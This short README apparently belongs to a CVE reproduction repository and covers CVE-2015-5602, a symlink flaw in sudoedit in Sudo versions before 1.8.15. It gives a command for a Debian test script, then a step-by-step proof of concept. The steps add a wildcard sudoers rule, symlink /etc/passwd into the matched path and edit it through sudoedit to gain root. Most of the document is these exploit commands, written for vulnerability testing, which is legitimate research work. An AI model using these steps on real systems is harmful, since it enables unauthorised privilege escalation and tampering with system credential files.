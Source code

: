 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python cve_debian.py -n 2015-5602 -r bullseye -d sudoedit -s
```

### Simple testing method

```shell
adduser haxor
echo "haxor ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su haxor
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/haxor/demo/test.txt # Should be working
```
You can edit the file and then get root access.
